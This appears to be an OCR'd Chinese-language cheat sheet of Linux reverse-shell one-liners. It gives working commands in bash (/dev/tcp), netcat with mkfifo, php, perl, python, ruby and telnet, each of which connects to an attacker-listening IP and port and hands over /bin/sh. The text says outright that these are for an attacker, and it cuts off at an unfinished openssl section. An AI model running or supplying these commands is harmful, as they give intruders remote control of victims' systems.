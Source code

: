Linux上也存在一些自带命令/工具，来进行反弹shell得到一个(非)交互式shell。  
下述命令中的yourip为攻击者监听的ip；yourport为攻击者监听的端口。

## bash

```plain
bash -c 'exec bash -i &>/dev/tcp/yourip/yourport <&1'
```

## netcat

```plain
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc yourip yourport >/tmp/f
```

## php

```plain
php -r '$sock=fsockopen(getenv("yourip"),getenv("yourport"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

## perl

```plain
perl -e 'use Socket;$i="$ENV{yourip}";$p=$ENV{yourport};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python

1.  `python -c 'import sys,socket,os,pty;s=socket.socket()`
2.    `s.connect((os.getenv("yourip"),int(os.getenv("yourport"))))`
3.    `[os.dup2(s.fileno(),fd) for fd in (0,1,2)]`
4.    `pty.spawn("/bin/sh")'`

## ruby

```plain
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["yourip"],ENV["yourport"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## telnet

```ruby
TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1337 0<$TF | /bin/sh 1>$TF
```

## openssl 加密

服务端生成证书：

